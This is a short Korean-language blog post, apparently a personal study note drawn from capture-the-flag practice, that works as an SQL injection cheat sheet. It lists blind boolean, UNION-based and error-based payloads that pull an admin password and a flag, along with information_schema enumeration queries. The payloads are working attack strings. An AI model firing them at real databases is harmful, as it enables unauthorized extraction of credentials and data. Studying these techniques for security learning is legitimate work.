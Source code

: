 ```yaml
---
layout: post
title:  Sql Injection
date: 2023-12-10 20:00:01 +0900
categories: WEB
---
```

## 시스템 테이블
> `information_schema` <br>
> `mysql` <br>
> `performance_schema` <br>
> `sys` <br>


## blind
```sql
1' or (1=1) and '1'='1 -> 참일때
1' or (1=2) and '1'='1 -> 거짓일 때
```
```sql
1' or ((SELECT substr(user_pw,1,1) FROM blind WHERE user_id='admin')='i') and '1'='1
1' or ((SELECT ASCII(substr(user_pw,1,1)) FROM blind WHERE user_id='admin')=105) and '1'='1
```
## Union
```sql
' union select 1,flag,3,4,5 from (select 1,2,3 as flag,4,5 union select * from findflag_2 limit 1)x
-> 컬럼을 몰라도 위 코드를 이용하면 컬럼위치로 select 할 수 있다.
```
## 필터링 우회
- <https://g-idler.tistory.com/61>


## error base 
- <https://4rgos.tistory.com/12>
- <https://www.bugbountyclub.com/pentestgym/view/53>
- <https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c>


```sql
' or row(1,1)>(select count(*),concat((select pw from users),0x3a,floor(rand(0)*2)) x from (select 1 union select 2 union select 3)a group by x limit 1)
' or row(1,1)>(select count(*),concat((pw),0x3a,floor(rand(0)*2)) x from (select 1 union select 2 union select 3)a group by x limit 1)
-> 모든 구문 되는 error based, 앞에서 조회하는 * 중 하나도 가져올 수 있다.
```

## information schema
- <https://poqw.tistory.com/24>
- <https://aceatom.tistory.com/271>

```sql
select schema_name from information_schema.schemata
select table_schema,table_name from information_schema.tables where table_schema='데이터베이스 명'
select table_name,column_name from information_schema.columns where table_schema='데이터베이스 명'
```